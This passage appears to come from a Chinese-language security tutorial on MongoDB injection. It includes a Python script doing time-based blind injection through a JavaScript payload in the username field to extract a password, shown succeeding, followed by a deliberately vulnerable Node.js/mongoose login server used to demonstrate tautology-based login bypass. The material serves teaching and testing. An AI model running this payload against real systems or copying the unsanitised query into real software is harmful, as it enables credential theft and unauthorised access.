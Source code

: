 ```python
                "username": "admin'&&this.password.substr(-" + str(i) + ")=='" + str(c + res) + "') {sleep(2000);}})//",
                "password": "123456"
            }
            times = time.time()
            r = requests.post(url=url,headers=headers, data=data)
            if time.time() - times >= 2:
                res = c + res
                print("[+] " + res)
                break
    else:
        print("[-] Failed")
        break

# 输出如下: 
# [+] 6
# [+] 56
# [+] 456
# [+] 3456
# [+] 23456
# [+] 123456
```

 

## Nodejs 中的 MongoDB 注入

在 Nodejs 中也存在 MongoDB 注入的问题，其中主要是重言式注入，通过构造永真式构造万能密码实现登录绕过。下面我们使用 Nodejs 中的 mongoose 模块操作 MongoDB 进行演示。

- server.js

```js
var express = require('express');
var mongoose = require('mongoose');
var jade = require('jade');
var bodyParser = require('body-parser');

mongoose.connect('mongodb://localhost/test', { useNewUrlParser: true });
var UserSchema = new mongoose.Schema({
    name: String,
    username: String,
    password: String
});
var User = mongoose.model('users', UserSchema);
var app = express();

app.set('views', __dirname);
app.set('view engine', 'jade');

app.get('/', function(req, res) {
    res.render ("index.jade",{
        message: 'Please Login'
    });
});

app.use(bodyParser.json());

app.post('/', function(req, res) {
    console.log(req.body)
    User.findOne({username: req.body.username, password: req.body.password}, function (err, user) {
        console.log(user)
        if (err) {
            return res.render('index.jade', {message: err.message});
        }
```